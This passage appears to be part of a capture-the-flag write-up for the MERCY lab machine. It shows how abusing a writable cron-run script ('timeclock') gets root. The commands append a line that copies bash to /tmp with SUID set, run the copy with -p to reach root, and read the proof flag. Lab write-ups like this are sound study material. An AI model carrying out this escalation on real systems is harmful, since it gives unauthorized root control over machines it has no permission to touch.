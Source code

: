 ### Abussing cron job

To get root we copy the bash binary to the /temp directory, we assign SUID permissions and redirect to the **timeclock** file, a few moments later we see that the bash binary is in the /temp directory and finally we execute it and we get root.

```console
fluffy@MERCY:~/.private/secrets$ echo 'cp /bin/bash /tmp/ && chmod 4777 /tmp/bash' >> timeclock
fluffy@MERCY:~/.private/secrets$ ls -la /tmp/bash
-rwsrwxrwx 1 root root 986672 May  2 16:48 /tmp/bash
fluffy@MERCY:~/.private/secrets$ /tmp/bash -p
bash-4.3# id
uid=1003(fluffy) gid=1003(fluffy) euid=0(root) groups=0(root),1003(fluffy)
bash-4.3# cat /root/proof.txt
Congratulations on rooting MERCY. :-)
```

